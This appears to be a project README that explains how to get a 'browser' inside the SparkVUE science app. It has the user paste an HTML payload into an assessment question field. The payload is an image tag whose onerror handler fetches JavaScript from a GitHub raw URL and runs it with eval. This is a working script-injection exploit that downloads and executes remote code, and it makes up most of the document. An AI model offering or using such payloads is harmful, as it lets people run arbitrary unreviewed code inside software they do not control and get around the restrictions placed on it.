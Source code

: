 # Browser
A browser for sparkvue\n
Instructions:
1. Open SparkVUE from your app launcher
2. Click "Build New Experiment"
3. Click the full grey box (or the split ones, it doesn't really matter)
4. Click the paper with the checkmarks, and click "Add an Assessment"
5. Choose "Multiple Choice", and paste this in the "Questions" box:
```
<img src=# onerror="fetch('https://raw.githubusercontent.com/cam0studios/browser/main/main.js').then(e => e.text()).then(e => eval(e))">
```
For easy future use:
1. Click "save" and go to the hamburger menu
2. Hit "Save As", choose a name
3. Next time you open up SparkVUE, click "Open Saved Experiment" and click that file
